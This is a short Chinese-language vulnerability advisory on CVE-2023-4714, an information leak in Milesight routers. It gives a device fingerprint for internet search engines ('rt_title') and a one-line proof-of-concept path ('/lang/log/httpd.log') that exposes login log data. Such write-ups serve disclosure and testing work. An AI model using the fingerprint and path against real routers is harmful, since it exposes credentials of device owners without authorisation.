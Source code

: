 # 

# Milesight Router httpd.log 信息泄漏漏洞 CVE-2023-4714

## 漏洞描述

Milesight Router 存在信息泄漏漏洞，攻击者通过访问httpd.log可以获取登陆敏感日志信息

## 漏洞影响

Milesight Router

## 网络测绘

```
"rt_title"
```

## 漏洞复现

登陆页面

![image-20231116142232135](images/image-20231116142232135.png)

poc

```
/lang/log/httpd.log
```

![image-20231116142246862](images/image-20231116142246862.png)
